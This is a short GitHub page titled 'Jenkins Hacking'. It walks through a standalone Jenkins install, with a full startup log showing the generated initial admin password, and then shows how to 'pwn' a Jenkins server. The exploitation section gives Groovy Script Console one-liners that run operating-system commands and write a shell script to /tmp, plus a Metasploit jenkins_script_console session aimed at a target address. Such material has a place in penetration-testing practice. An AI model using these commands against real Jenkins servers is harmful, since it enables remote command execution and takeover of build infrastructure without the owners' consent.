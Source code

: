 **Authors**: < [nixawk](https://github.com/nixawk) >


# Jenkins Hacking

1. How to deploy jenkins ?
2. How to exploit jenkins server ?


Jenkins is a self-contained, open source automation server which can be used to automate all sorts of tasks such as building, testing, and deploying software. Jenkins can be installed through native system packages, Docker, or even run standalone by any machine with the Java Runtime Environment installed.


## How to deploy jenkins ?

This guided tour will use the "standalone" Jenkins distribution which requires a minimum of Java 7, though Java 8 is recommended. A system with more than 512MB of RAM is also recommended.

1. [Download Jenkins](http://mirrors.jenkins.io/war-stable/latest/jenkins.war).
2. Open up a terminal in the download directory and run java -jar jenkins.war
3. Browse to http://localhost:8080 and follow the instructions to complete the installation.
4. Many Pipeline examples require an installed Docker on the same computer as Jenkins.

Please check the install log as follow.

```
root@lab:~/Downloads# java -jar jenkins.war
Running from: /root/Downloads/jenkins.war
webroot: $user.home/.jenkins
Mar 15, 2017 5:03:49 AM Main deleteWinstoneTempContents
WARNING: Failed to delete the temporary Winstone file /tmp/winstone/jenkins.war
Mar 15, 2017 5:03:50 AM org.eclipse.jetty.util.log.JavaUtilLog info
INFO: Logging initialized @6168ms
Mar 15, 2017 5:03:50 AM winstone.Logger logInternal
INFO: Beginning extraction from war file
Mar 15, 2017 5:04:05 AM org.eclipse.jetty.util.log.JavaUtilLog warn
WARNING: Empty contextPath
Mar 15, 2017 5:04:06 AM org.eclipse.jetty.util.log.JavaUtilLog info
INFO: jetty-9.2.z-SNAPSHOT
Mar 15, 2017 5:04:10 AM org.eclipse.jetty.util.log.JavaUtilLog info
INFO: NO JSP Support for /, did not find org.eclipse.jetty.jsp.JettyJspServlet
Jenkins home directory: /root/.jenkins found at: $user.home/.jenkins
Mar 15, 2017 5:04:20 AM org.eclipse.jetty.util.log.JavaUtilLog info
INFO: Started w.@30990c1b{/,file:/root/.jenkins/war/,AVAILABLE}{/root/.jenkins/war}
Mar 15, 2017 5:04:20 AM org.eclipse.jetty.util.log.JavaUtilLog info
INFO: Started ServerConnector@54227100{HTTP/1.1}{0.0.0.0:8080}
Mar 15, 2017 5:04:20 AM org.eclipse.jetty.util.log.JavaUtilLog info
INFO: Started @36602ms
Mar 15, 2017 5:04:20 AM winstone.Logger logInternal
INFO: Winstone Servlet Engine v2.0 running: controlPort=disabled
Mar 15, 2017 5:04:22 AM jenkins.InitReactorRunner$1 onAttained
INFO: Started initialization
Mar 15, 2017 5:04:23 AM jenkins.InitReactorRunner$1 onAttained
INFO: Listed all plugins
Mar 15, 2017 5:04:45 AM jenkins.InitReactorRunner$1 onAttained
INFO: Prepared all plugins
Mar 15, 2017 5:04:45 AM jenkins.InitReactorRunner$1 onAttained
INFO: Started all plugins
Mar 15, 2017 5:04:45 AM jenkins.InitReactorRunner$1 onAttained
INFO: Augmented all extensions
Mar 15, 2017 5:04:51 AM jenkins.InitReactorRunner$1 onAttained
INFO: Loaded all jobs
Mar 15, 2017 5:04:51 AM hudson.model.AsyncPeriodicWork$1 run
INFO: Started Download metadata
Mar 15, 2017 5:04:52 AM org.jenkinsci.main.modules.sshd.SSHD start
INFO: Started SSHD at port 43731
Mar 15, 2017 5:04:53 AM jenkins.InitReactorRunner$1 onAttained
INFO: Completed initialization
Mar 15, 2017 5:04:55 AM org.springframework.context.support.AbstractApplicationContext prepareRefresh
INFO: Refreshing org.springframework.web.context.support.StaticWebApplicationContext@4d8c4701: display name [Root WebApplicationContext]; startup date [Wed Mar 15 05:04:55 EDT 2017]; root of context hierarchy
Mar 15, 2017 5:04:55 AM org.springframework.context.support.AbstractApplicationContext obtainFreshBeanFactory
INFO: Bean factory for application context [org.springframework.web.context.support.StaticWebApplicationContext@4d8c4701]: org.springframework.beans.factory.support.DefaultListableBeanFactory@16f7f485
Mar 15, 2017 5:04:55 AM org.springframework.beans.factory.support.DefaultListableBeanFactory preInstantiateSingletons
INFO: Pre-instantiating singletons in org.springframework.beans.factory.support.DefaultListableBeanFactory@16f7f485: defining beans [authenticationManager]; root of factory hierarchy
Mar 15, 2017 5:04:58 AM org.springframework.context.support.AbstractApplicationContext prepareRefresh
INFO: Refreshing org.springframework.web.context.support.StaticWebApplicationContext@1aa6a1d4: display name [Root WebApplicationContext]; startup date [Wed Mar 15 05:04:58 EDT 2017]; root of context hierarchy
Mar 15, 2017 5:04:58 AM org.springframework.context.support.AbstractApplicationContext obtainFreshBeanFactory
INFO: Bean factory for application context [org.springframework.web.context.support.StaticWebApplicationContext@1aa6a1d4]: org.springframework.beans.factory.support.DefaultListableBeanFactory@26dbd965
Mar 15, 2017 5:04:58 AM org.springframework.beans.factory.support.DefaultListableBeanFactory preInstantiateSingletons
INFO: Pre-instantiating singletons in org.springframework.beans.factory.support.DefaultListableBeanFactory@26dbd965: defining beans [filter,legacy]; root of factory hierarchy
Mar 15, 2017 5:04:59 AM jenkins.install.SetupWizard init
INFO:

*************************************************************
*************************************************************
*************************************************************

Jenkins initial setup is required. An admin user has been created and a password generated.
Please use the following password to proceed to installation:

e019dca34bac4a30beca67b53e821f35

This may also be found at: /root/.jenkins/secrets/initialAdminPassword

*************************************************************
*************************************************************
*************************************************************

Mar 15, 2017 5:05:06 AM hudson.model.UpdateSite updateData
INFO: Obtained the latest update center data file for UpdateSource default
Mar 15, 2017 5:05:09 AM hudson.model.DownloadService$Downloadable load
INFO: Obtained the updated data file for hudson.tasks.Maven.MavenInstaller
Mar 15, 2017 5:05:09 AM hudson.model.UpdateSite updateData
INFO: Obtained the latest update center data file for UpdateSource default
Mar 15, 2017 5:05:10 AM hudson.WebAppMain$3 run
INFO: Jenkins is fully up and running
Mar 15, 2017 5:05:10 AM javax.jmdns.impl.HostInfo newHostInfo
WARNING: Could not intialize the host network interface on nullbecause of an error: lab: lab: Temporary failure in name resolution
java.net.UnknownHostException: lab: lab: Temporary failure in name resolution
	at java.net.InetAddress.getLocalHost(InetAddress.java:1505)
	at javax.jmdns.impl.HostInfo.newHostInfo(HostInfo.java:75)
	at javax.jmdns.impl.JmDNSImpl.<init>(JmDNSImpl.java:407)
	at javax.jmdns.JmDNS.create(JmDNS.java:60)
	at hudson.DNSMultiCast$1.call(DNSMultiCast.java:33)
	at jenkins.util.ContextResettingExecutorService$2.call(ContextResettingExecutorService.java:46)
	at java.util.concurrent.FutureTask.run(FutureTask.java:266)
	at java.util.concurrent.ThreadPoolExecutor.runWorker(ThreadPoolExecutor.java:1142)
	at java.util.concurrent.ThreadPoolExecutor$Worker.run(ThreadPoolExecutor.java:617)
	at java.lang.Thread.run(Thread.java:745)
Caused by: java.net.UnknownHostException: lab: Temporary failure in name resolution
	at java.net.Inet6AddressImpl.lookupAllHostAddr(Native Method)
	at java.net.InetAddress$2.lookupAllHostAddr(InetAddress.java:928)
	at java.net.InetAddress.getAddressesFromNameService(InetAddress.java:1323)
	at java.net.InetAddress.getLocalHost(InetAddress.java:1500)
	... 9 more

Mar 15, 2017 5:05:18 AM hudson.model.DownloadService$Downloadable load
INFO: Obtained the updated data file for hudson.tools.JDKInstaller
Mar 15, 2017 5:05:18 AM hudson.model.AsyncPeriodicWork$1 run
INFO: Finished Download metadata. 27,508 ms


```

Please attention here, we need the password to finish setup.

```
Jenkins initial setup is required. An admin user has been created and a password generated.
Please use the following password to proceed to installation:

e019dca34bac4a30beca67b53e821f35
```

## How to exploit jenkins server ?

access http://127.0.0.1:8080/script, and pwn the jenkins server with Script Console.

> Script Console

> Type in an arbitrary Groovy script and execute it on the server. Useful for trouble-shooting and diagnostics. Use the ‘println’ command to see the output (if you use System.out, it will go to the server’s stdout, which is harder to see.) Example:


### **execmd.groovy**

**execmd.groovy** can help you execute os command on jenkins server.

```
# Windows

println "cmd.exe /c dir".execute().text


# Linux

println "uname -a".execute().text

```

### **writefile.groovy**

**writefile.groovy** can write strings into a file on jenkins server.

```
new File("/tmp/test.sh").write("""
echo "123"
echo "456"
""")
```

If you prefer [metasploit-framework](https://github.com/rapid7/metasploit-framework),

```
msf > use exploit/multi/http/jenkins_script_console
msf exploit(jenkins_script_console) > show options

Module options (exploit/multi/http/jenkins_script_console):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   password         no        The password for the specified username
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST      192.168.1.100    yes       The target address
   RPORT      8080             yes       The target port
   TARGETURI  /                yes       The path to jenkins
   USERNAME   test             no        The username to authenticate as
   VHOST                       no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   1   Linux
msf exploit(jenkins_script_console) > exploit
```


## References

1. https://jenkins.io/
